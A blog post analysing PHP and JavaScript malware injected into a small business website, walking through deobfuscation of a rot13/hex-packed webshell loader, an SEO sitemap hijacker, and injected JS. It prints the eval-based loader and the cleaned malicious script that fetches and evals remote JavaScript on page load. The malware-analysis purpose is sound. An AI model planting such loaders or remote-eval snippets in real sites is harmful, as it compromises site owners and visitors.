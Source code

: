 ```yaml
---
title: "analyzing simple, real world PHP malware"
date: 2022-05-31
description: "a look at the malware nebita.com was infected with"
tags:
    - security
    - infosec
    - malware
    - reverse engineering
    - analysis
feature_image: /img/posts/nebita-malware/cover.jpg
feature_alt: "a glitchy edited screenshot of the nebita.com home page"
---
```


In February I was contacted by [convincing](https://convinci.ng/) from [webcage](https://webca.ge/), asking whether I'd like to have a look at some malware that ended up on the [website of webcage member nebita](https://nebita.com). At that point it's been a while since i last looked into any PHP malware, or PHP stuff in general, but I agreed to at least take a quick look at it. I originally documented that work in a Twitter thread, but promised a blog post and with the Twitter account it was originally posted on being suspended that makes even more sense now.

## the beginning

![an excerpt of the heavily obfuscated php injected at the start of the index file](/img/posts/nebita-malware/index.php-excerpt.png)

Various changes were made when the site was originally owned via an insecure ftp password set by the hosting provider at the time. The sites index file had obfuscated php appended to [the start of the file](https://github.com/deletescape/nebita.com-samples/blob/main/index.php#L1) and was renamed from a plain html file to a php file, similarly the main js file had obfuscated javascript [appended at the end](https://github.com/deletescape/nebita.com-samples/blob/main/main.js#L63).

![the start of the second script dropped in a new sub directory](/img/posts/nebita-malware/second-script-screenshot.png)

Additionally [another PHP file](https://github.com/deletescape/nebita.com-samples/blob/main/2nd%20script/index.php) called `deez.php`, obfuscated using a different method, was placed in a newly created subdirectory. Based on the fact that this was a standalone script hidden in a subdirectory and the few unobfuscated variables and environment settings I assumed that this script would most likely turn out to be a [webshell](https://en.wikipedia.org/wiki/Web_shell), however I was still going to try and deobfuscate it, both for the fun of it and to make sure I was right.

## the webshell

I decided to take a look at what I assumed was a webshell first, mostly because the obvious use of [rot13](https://en.wikipedia.org/wiki/ROT13) for obfuscation made it seem like a much simpler target than the other two scripts.

So let's get a basic outline of the full script:

```php
error_reporting(E_ERROR);
@ini_set('display_errors','Off');
@ini_set('max_execution_time',20000);
@ini_set('memory_limit','256M');
header("content-Type: text/html; charset=utf-8");
$password = "9cf9ffdce70e787dd580fccee52f402e";
define('Viv, bebegim.','');
```
1. basic configuration with headers being set, as well as some sort of password 👀  
```php
function s(){
	$str = "66756r[...]9rr680n75o272r2463686q6s642r275q3p2s6469763r3p2s666s726q3r273o0q0n627265616o3o0q0n7q";
	$str=get_str($str);
	m($str);
}
function get_str($str){
	$str = str_rot13($str);
	return $str;
}
```
2. a big blob of data is defined, which when run through `rot_13` turns out to still be encoded in some hexadecimal format  
```php
function get1_str($str1){
	$str = $str1."ck";
	return $str;
}
function m($str){
	global $password;
	$str1="pa";
	$str1=get1_str($str1);
	$jj = '';
	@eval(`/******/`.$jj.$str1('H*',$str).$jj);
}
s();
```
3. `$password` is turned into a global, to be used inside the packed script
4. `get1_str` and `m` are simply a very badly obfuscated call to `pack` which turns our hex encoded data into plain text php...
5. ... which then gets executed via eval, after doing some useless concatenation in an attempt to obfuscate that call

All we have to do now to get out an [unobfuscated version of the script](https://github.com/deletescape/nebita.com-samples/blob/main/2nd%20script/decoded.php) is to replace the call to `eval` with `echo` and running it. And what do we get when we do that? ...

![a screenshot of part of the webshell source code](/img/posts/nebita-malware/webshell-1.jpg)

🎉 a webshell ✨

![another screenshot of part of the webshell source code, showing some of the backdooring code](/img/posts/nebita-malware/webshell-2.jpg)

It even has some fun persistence features, including a built in way to spawn persistent reverse shells on the compromised system to back door it more permanently.

## the index file

### deobfuscation

Ok, with that out of the way let's take a look at the way more complex looking code injected in the header of the index file. The first thing i did to tackle this one was to copy all the PHP into a seperate file and formatting it, this already made it signficiantly less overwhelming.

![a screenshot of part of the formated injected malware](/img/posts/nebita-malware/index-isolated.jpg)

I then URLdecoded the long string at the start, which made it clear that it seems to be some sort of look-up table/alphabet. 

```php
# before
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a%7c";

# after
$O = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_-\"?> <.-=:/1230654879';()&^$[]\\%{}!*|";
```

this quickly made it clear that this script was obfuscated by turning all strings (and method names) into array references. I first tried to undo this obfuscation by half-manually decoding the script string by string, this turned out to be way too tedious very quickly so i wrote a quick and dirty python script to automatically do it for me (with some cursed regex replacements required to join the characters into full strings (`s/"([^"]+)" . "([^"]+)"/"$1$2"/`)).

```python
script = """<full formatted but obfuscated php script here>"""

alphabet = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_-\"?> <.-=:/1230654879';()&^$[]\\%{}!*|"

count = 0
for char in alphabet:
    if char == "\"" or char == "\\":
        char = "\\" + char
    script = script.replace(f"$O[{count}]", f"\"{char}\"")
    count = count + 1

print(script)
```

After that it was only a matter of manually renaming obfuscated variable names and figuring out what [this, now super clean, script](https://github.com/deletescape/nebita.com-samples/blob/main/decoded.php) does.

![a screenshot of the start of the now deobfuscated malware script](/img/posts/nebita-malware/index-deobfuscated.jpg)

### analysis

It turns out this script is A LOT of fun and certainly way more interesting than i expected. What it does is, it captures requests for sitemaps from search engine bots and returns sitemaps from their own backend, presumably to trick search engines into ranking spam sites higher and as related to the sites infected with this malware.

![a screenshot of some of the sitemap replacement source code](/img/posts/nebita-malware/index-sitemap.jpg)

Based on this scripts function, the little info i have on the backend as well as the fact that the webshell they used is in Chinese, I assume that the site was hacked by spammers (or their contractors) from China, who then resell traffic and search engine ranking services to others, most likely also spammers/scammers.

## the javascript

The JavaScript injected at the start of the main js file turned out to be fairly heavy but standard js obfuscation, which I was able to manually reverse step by step with a little bit of patience. I don't really have a write up on how I did that for this specific instance, but I plan to at some point talk about my process for manually deobfuscating scripts.

After a few passes of manual clean up the script turns out to be merely 27 simple lines of js:
```js
if (hasRun === undefined) {
  var hasRun = true;

  var HttpClient = function () {
    this.get = function (url, callback) {
      var request = new XMLHttpRequest();
      request.onreadystatechange = function () {
        if (request.readyState == 4 && request.status == 200) {
          callback(request.responseText);
        }
      };
      request.open("GET", url, !![]);
      request.send(null);
    };
  };

  (function () {
    if (document.referrer && !(document.referrer.indexOf(location.hostname) !== -1) && !document.cookie) {
      var client = new HttpClient();
      var url = location.protocol + "//nebita.com/U66c6Lzr<shortened by maia>aa8HI/deez/deez.php?id=" + Math.random().toString(36).substr(2) + Math.random().toString(36).substr(2);
      client.get(url, function (response) {
        // execute returned xss payload
        response.indexOf("ndsx") !== -1 && eval(response);
      });
    }
  })();
}
```

So all this script did is query the webshell script for a javascript payload to execute on each load of the webpage. It's unfortunately not possible to figure out anymore what, if anything at all, was injected into the site this way, but I assume that this was the main reason for the big slowdown of the page that lead to discovering the malware in the first place (this is purely speculation though).

## the backend

So next i obviously wanted to take a look at the spammers backend and it's api, however that turned out to have been taken down already at the time.

## the malware

If you are interested in looking through the malware source code yourself, or attempt to replicate my deobfuscation attempts all files mentioned throughout this article can be found in a [GitHub repository here](https://github.com/deletescape/nebita.com-samples/). Feel free to let me know if you find anything interesting I missed!